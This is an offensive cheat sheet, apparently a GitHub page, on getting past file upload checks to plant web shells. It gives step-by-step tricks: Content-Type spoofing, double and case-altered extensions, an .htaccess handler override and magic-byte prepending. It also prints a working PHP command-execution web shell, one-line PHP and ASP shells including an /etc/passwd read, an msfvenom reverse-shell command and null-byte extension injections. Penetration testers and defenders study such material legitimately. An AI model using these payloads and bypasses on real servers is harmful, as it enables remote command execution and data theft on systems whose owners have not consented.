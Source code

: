# Uplaod Vulnerabilities

## Prerequisite:

### Find an upload page using directory bruteforce (gobuster), or you may find it on an admin dashboard of a CMS application.

## Overwriting existing files:

### Simply put, rename your payload to the same name of the file you want to overwrite then upload.

## Content-Type Bypass

Upon launching your file, open BurpSuite and change the Content-Type header to something the server accepts.

For example, when uploading a .php shell and the server accepts .png files, you can change the header from:

    application/x-php
    
to

    image/png

Then simply forward the request for the file to be uploaded.


## Double Extension

If the server accepts for example only .png files, but does not validate the content properly, simply add a second valid extension in front of your reverse shell file.

For example, from

    shell.php

to

    shell.php.png

Upload the file to get your shell.

## Image size validation bypass

If the file you want to upload exceeds the file size e.g. 1kb, it won't be accepted by the server.

Hence, we can use a way smaller file like the simple-backdoor.php

    cp /usr/share/webshells/php/simple-backdoor.php /root/Desktop/

After uploading, access you shell to example URL where file uploads migth be located:

    http://domain.local/uploads/simple-backdoor.php?cmd=id

## Blacklisted Extenstion file upload

Some applications might blacklist extensions like .php for example.

To bypass this you can just rename the extension by manipulating the cases.

For example:

    shell.PHP
    shell.pHp
    shell.phP

But before getting your shell, we might need to upload an .htaccess file with the content:

    AddType application/x-httpd-php PHP

Sve the file, then upload it to the server. After that, try to reupload your file.

Upload the file to get your shell if bypassed successfully.

## Magic Bytes Bypass

If an upload functionality permits only for example, image files, we can append some "Magic Bytes" on our reverse shell to make it an image file.

    GIF87a
    <?php
    
    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }
    
    ?>

Then verify with 

    file shell.php

## Web Shells

| **Web Shell**   | **Description**   |
| --------------|-------------------|
| `<?php file_get_contents('/etc/passwd'); ?>` | Basic PHP File Read |
| `<?php system('hostname'); ?>` | Basic PHP Command Execution |
| `<?php system($_REQUEST['cmd']); ?>` | Basic PHP Web Shell |
| `<% eval request('cmd') %>` | Basic ASP Web Shell |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php` | Generate PHP reverse shell |
| [PHP Web Shell](https://github.com/Arrexel/phpbash) | PHP Web Shell |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) | PHP Reverse Shell |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

## Bypasses

| **Command**   | **Description**   |
| --------------|-------------------|
| **Client-Side Bypass** |
| `[CTRL+SHIFT+C]` | Toggle Page Inspector |
| **Blacklist Bypass** |
| `shell.phtml` | Uncommon Extension |
| `shell.pHp` | Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) | List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP) | List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) | List of Web Extensions |
| **Whitelist Bypass** |
| `shell.jpg.php` | Double Extension |
| `shell.php.jpg` | Reverse Double Extension |
| `%20`, `%0a`, `%00`, `%0d0a`, `/`, `.\`, `.`, `…` | Character Injection - Before/After Extension |
| **Content/Type Bypass** |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt) | List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt) | List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures) | List of File Signatures/Magic Bytes |

## Limited Uploads

| **Potential Attack**   | **File Types** |
| --------------|-------------------|
| `XSS` | HTML, JS, SVG, GIF |
| `XXE`/`SSRF` | XML, SVG, PDF, PPT, DOC |
| `DoS` | ZIP, JPG, PNG |
